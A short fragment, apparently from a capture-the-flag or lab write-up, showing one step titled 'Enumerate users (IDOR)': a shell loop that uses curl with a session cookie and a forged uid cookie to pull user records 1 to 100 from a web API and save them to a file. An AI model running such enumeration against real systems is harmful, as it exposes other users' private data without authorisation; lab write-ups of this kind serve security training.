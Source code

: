 1. Enumerate users (IDOR)
```shell-session
for i in {1..100}; do curl -s "http://94.237.48.12:39808/api.php/user/$i" -H "Cookie: PHPSESSID=d8sskie22digjhc13fra80lh62; uid=$i"; echo; done >> wow.txt
```

